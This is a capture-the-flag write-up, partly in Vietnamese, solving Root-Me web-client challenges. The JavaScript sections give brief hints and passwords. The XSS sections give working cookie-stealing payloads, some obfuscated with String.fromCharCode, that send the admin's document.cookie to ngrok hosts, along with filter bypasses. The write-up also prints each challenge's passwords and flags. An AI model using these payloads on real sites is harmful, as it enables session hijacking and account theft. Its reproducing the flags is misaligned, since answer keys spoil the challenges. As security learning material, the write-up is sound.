

# Challenge
- [Challenge](#challenge)
- [HTML - disabled buttons](#html---disabled-buttons)
- [Javascript - Authentification](#javascript---authentification)
- [Javascript - Source](#javascript---source)
- [Javascript - Authentication 2](#javascript---authentication-2)
- [Javascript - Obfuscation 1](#javascript---obfuscation-1)
- [Javascript - Obfuscation 2](#javascript---obfuscation-2)
- [Javascript - Native code](#javascript---native-code)
- [Javascript - Webpack](#javascript---webpack)
- [Javascript - Obfuscation 3](#javascript---obfuscation-3)
- [Web Socket - 0 protection](#web-socket---0-protection)
- [XSS Reflected](#xss-reflected)
  - [Description:](#description)
  - [solution](#solution)
- [XSS-Stored1](#xss-stored1)
  - [Description:](#description-1)
  - [Solution:](#solution-1)
- [XSS-Stored2](#xss-stored2)
  - [Description:](#description-2)
  - [Solution:](#solution-2)
- [XSS DOM Based – Introduction](#xss-dom-based--introduction)
  - [Description:](#description-3)
  - [Solution:](#solution-3)
- [XSS DOM Based – AngularJS](#xss-dom-based--angularjs)
  - [Description:](#description-4)
  - [Solution:](#solution-4)
- [XSS DOM Based – Eval](#xss-dom-based--eval)
  - [Description:](#description-5)
  - [Solution:](#solution-5)


# HTML - disabled buttons
delete disable tag

pass: HTMLCantStopYou
# Javascript - Authentification
check source: login.js

pass: sh.org
# Javascript - Source
source again

pass:123456azerty
# Javascript - Authentication 2
just source

pass: HIDDEN
# Javascript - Obfuscation 1
URL decode

pass: cpasbiendurpassword
# Javascript - Obfuscation 2
URL Decode : (104,68,117,102,106,100,107,105,49,53,54)
```
python3 -c "arr=[104,68,117,102,106,100,107,105,49,53,54];print(''.join(chr(i) for i in arr))"
```
pass: hDufjdki156
# Javascript - Native code
F12 time! Add that nasty thing to breakpoint and enumerate it


pass: toto123lol

# Javascript - Webpack
Source again.

pass: BecauseSourceMapsAreGreatForDebuggingButNotForProduction
# Javascript - Obfuscation 3
Hex decode

pass:786OsErtk12
# Web Socket - 0 protection

# XSS Reflected
## Description:
Find a way to steal the administrator’s cookie.
Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.
## solution
Mở đầu chall bằng 1 trang dashboard như sau:


Như title đề bài, giờ mình phải tìm được nơi nhúng được đoạn mã của mình như trên URL hoặc ở submit form. Cụ thể trong chall này, mình sẽ dễ dàng thầy được trang ``Contact Us`` , thử inject 1 số payload XSS đơn giản xem sao:


Có vẻ form thì đã được submit nhưng mà không có dấu hiệu thực thi được script, ngoài ra nó còn báo

``We have automatically printed out your feedback and burned it to provide our offices with warmth during the harsh Nordic winter
(seriously, nobody wants to read your rambling).``

lmao. Nhưng để ý kĩ, trong source code, có đường path dẫn đến ?``p=security``.


Và đặc biệt, nó được gửi đến server thông qua method ``GET``, vậy có vẻ đây chính là nơi có thể trigger XSS, mình sẽ test trước 1 số payload xem có khả thi không:

```
?p=security'><script>alert(1)</script>
```


Nhìn là thấy nó đã bị filter qua ``html entity``, có 1 số cách để bypass ở đoạn này, trong đó ta có thể bypass thông qua các attribute, cụ thể ở đây ta sẽ dùng ``onmousemove``, và vì html entity không lọc kí tự ``'`` ,vậy payload sẽ là:

```
security%27%20onmousemove=%27alert(1)
```


ồ yê, đã có POC ròi,(thực ra ở đây mình cũng ko hiẻu vì sao headless browser lại trigger được cái attribute đấy nma kệ thui :v). Bây giờ mình sẽ xây payload cướp cookie, trước tiên vì bị lọc html entity, nên payload của mình sẽ không được có ' và " , để thỏa mãn cái đó, thì mình sẽ sử dụng ``String.fromCharCode`` và thực thi nó qua func ``eval``

payload:
```
?p=security' onmousemove='eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,39,104,116,116,112,58,47,47,97,54,100,52,45,50,52,48,50,45,56,48,48,45,54,49,98,49,45,99,53,48,55,45,49,98,50,100,45,101,57,49,54,45,101,55,100,51,45,56,48,99,57,46,110,103,114,111,107,46,105,111,47,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))

```


Việc cần cuối cùng là để admin đọc được payload retrieve cookie của mình. khi ta click vào nút report gửi cho admin, request có dạng như sau


Vậy đơn giản rồi, mình chỉ cần thay đổi giá trị của url thành đường link với reflect xss ở trên và đợi server mở đường link đó và trigger cái ``onmousemove`` atribute đấy thoi


flag: r3fL3ct3D_XsS_fTw

# XSS-Stored1
## Description:
Steal the administrator session cookie and use it to validate this chall.
## Solution:


Đây là 1 chall đơn giản về store-based xss, ý tưởng là ta sẽ lưu scipt cướp cookie ở form message và ngồi đợi thằng admin đến đọc cái message đó và bay màu.

payload:
```
<script>new Image().src="http://a6d4-2402-800-61b1-c507-1b2d-e916-e7d3-80c9.ngrok.io/?c="+encodeURI(document.cookie);</script>
```


Tada, payload của ta giờ đã được trigger trong phiên thằng admin


flag: NkI9qe4cdLIO2P7MIsWS8ofD6

# XSS-Stored2
## Description:
Steal the administrator session’s cookie and go in the admin section.
## Solution:


Đập vào mặt ta vẫn là cái forum giống ở chall trước, nhưng mà đã có thêm 1 số feature như là giờ title và message đã bị encode qua ``html entities`` nên sẽ không thể thực hiện xss ở đây.


Nếu để ý kĩ, mình sẽ thấy giá trị cookie ``status=invite`` đang được hiện thị trên page và không bị fitler html entities. Đây chính là nơi ta có thể trigger xss,

payload:
```
"><script>alert(1);</script><i class=
```


Và cũng tương tự chall trên, ta sẽ store payload cướp cookie ở đây và đợi thằng admin thoi

payload:
```
"><script>new Image().src="http://a6d4-2402-800-61b1-c507-1b2d-e916-e7d3-80c9.ngrok.io/?c="+encodeURI(document.cookie);</script><i class="
```


# XSS DOM Based – Introduction
## Description:
Steal the admin’s session cookie.
## Solution:


Ở đây ta đang có param number nhận input đầu vào, mình thử 1 số bất kì, và trang nó render như sau:


Đây là 1 chall đơn giản để giới thiệu về dom-based nên không có filter gì cả, đơn giản ta sẽ chèn script mình vào thông qua cái param number và bởi vì nó là dom nên đoạn mã độc được sẽ được thực thi bởi đoạn Javascript phía client mà không cần server xử lý request.

payload:
```
';var number=random;//
```


Như description đè bài, ta sẽ cướp cookie của thằng admin, thông qua trang contact

payload:
```
http://challenge01.root-me.org/web-client/ch32/index.php?number=';window.location="http://d21c-2402-800-61b1-c507-1b2d-e916-e7d3-80c9.ngrok.io/?c=".concat(document.cookie);//
```


flag: rootme{XSS_D0M_BaSed_InTr0}

# XSS DOM Based – AngularJS
## Description:
Steal the admin’s session cookie.

## Solution:


Gần giống với chall trên, thì ở đây ta có 1 param name mà ta inject được, trước tiên mình điền thử bất kì ta sẽ có được trang render như sau:


Và như title, chall này nó đang bị dính lỗi xss khi sử dụng framework ``AngularJS``, và theo như source code, nó filter thêm cả ' , nên ta sẽ có payload sau:

```
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}}
```

Reference: [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)


Và tương tự chall trên thôi, ta sẽ gửi đường link kèm theo payload xss và khi thằng admin truy cập vào thì payload sẽ được trigger dưới session thằng admin.

payload:
```
http://challenge01.root-me.org/web-client/ch35/?name={{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,58,47,47,100,50,49,99,45,50,52,48,50,45,56,48,48,45,54,49,98,49,45,99,53,48,55,45,49,98,50,100,45,101,57,49,54,45,101,55,100,51,45,56,48,99,57,46,110,103,114,111,107,46,105,111,47,63,99,61,34,46,99,111,110,99,97,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))()}}
```


flag: rootme{@NGu1@R_J$_1$_C001}

# XSS DOM Based – Eval
## Description:
Steal the admin’s session cookie.
## Solution:


Tương tự như 2 chall trên, lần này mình sẽ có 1 form thực hiện tính toán, trước tiên, mình sẽ thử 1 kí tự bất kì:


lần này nó có filter lọc chỉ cho phép số thực hiện ``+ - * /`` với số, ngoài ra nó còn lọc cả kí tự ``( )``


Trước tiên ta thử 1 biểu thức phù hợp xem trang nó render ntn:


Đến đây mình nghĩ ngay đến việc sử dụng ``multi line comment`` (aka /* */) để bypass, và payload của mình như sau:
```
69+96/*';window.location='http://d21c-2402-800-61b1-c507-1b2d-e916-e7d3-80c9.ngrok.io/?c='+document.cookie;//*/
```
Thì trang sẽ render như sau:
```
<script>
            var result = eval(69+96/*';window.location='http://d21c-2402-800-61b1-c507-1b2d-e916-e7d3-80c9.ngrok.io/?c='+document.cookie;//*/);
            document.getElementById('state').innerText = '69+96/*';window.location='http://d21c-2402-800-61b1-c507-1b2d-e916-e7d3-80c9.ngrok.io/?c='+document.cookie;//*/ = ' + result;
</script>
```

Tương tự như trên, ta gửi đường link kèm theo payload cho admin thoi:


flag: rootme{Eval_Is_DangER0us}